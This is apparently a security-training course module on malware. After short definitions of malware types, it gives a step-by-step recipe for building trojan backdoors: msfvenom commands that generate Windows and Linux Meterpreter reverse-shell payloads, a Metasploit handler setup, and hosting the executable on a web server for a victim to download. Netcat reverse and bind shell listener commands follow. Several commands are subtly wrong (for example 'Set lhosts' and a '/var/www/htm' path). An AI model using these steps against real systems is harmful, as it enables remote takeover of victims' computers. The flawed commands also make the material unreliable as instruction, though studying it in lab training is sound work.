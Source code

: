 ﻿
**Module 7**

**Malware threats**

Malware is a computer software program with the bad intention which is popularly known as a virus, trojan ,etc to interrupt the server, or gain access unauthorize way .

**Introduction to Malware** 

**Trojans:-** This is method of hiding the virus in legitimate software so victim can trustfully execute the program. 

**Adware:-** This virus serves advertisement , as soon as it get delieverd it get hidden on device .

**Botnet:-** Botnet is used to infect computer network , but it also has an advantage phase.

**Backdoors:-** Backdoor name declare the most thing that it means open another doors. It used to gain remote access of any system.

**Ransomware:-**  Cyber criminal encrypt the data of the user and ask for pay rupees for the data. 

**Spyware:-** This is made to collect the information of user without knowing of the user. 

**Know let see how to creates trojan or backdoor**

We use msvenom tool for creating payload 

Command :- msfvenom -p windows/meterpreter\_reverse\_tcp lhost=[our Ip] lport=[any port ] -f exe > shell.exe

This Payload for window 

Payload for linux :-

Command :-  msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Know we will see how to gain access through trojan 

Go to the linux open msetasploit 

Msfconsole

Use exploit/multi/handler

Set payload windows/meterpreter\_reverse\_tcp  ##{set same payload}

Set lhosts [your Ip ]

Set port [same on payload]

**Open new tab know set up to deliever the trojan** 

` `***Transfer the payload to the web server of kali linux*** 

mv shell.exe /var/www/htm/asad/shell.exe

know start the server of kali 

cmd:- service apache2 start

Know open the IP to the victim as a website .

With folder name like :- 192.168.2.27/asad/shell.exe

Download it .

Know go to the METASPLOIT tab and run the exploit 

We get that our listner is listening 

Know go to the victim machine and execute the payload 

We got the connection to the Metasploit .

Confirm it by typing sysinfo } ##we got the system detail

There are lots of payload are there for different os and in different language :- <https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom>



Go through this link and try by your self 


**Type of shell** 

**Netcat reverse shell &&  Netcat Bind shell** 

Reverse shell :- In reverse shell victim connect to the attacker .

Command for attacker box is :- nc -lvp 444

lvp  means listening verbose port 

just see the image

![netcat-reverse-shell](Aspose.Words.685b53a9-c587-4b02-8c21-d5d227e53940.001.jpeg)

Netcat Bind shell :- In this shell attacker connect to the user or victim , and victim is listner .

![Netcat bind shell](Aspose.Words.685b53a9-c587-4b02-8c21-d5d227e53940.002.jpeg)

Source of the image is :- <https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/>

For more reverse shell go through this link this is great source of reverse shell cheat sheet :- <https://pentestmonkey.net/cheat-sheet>



Md Asad Ansari

Security analyst

asad@craw.in
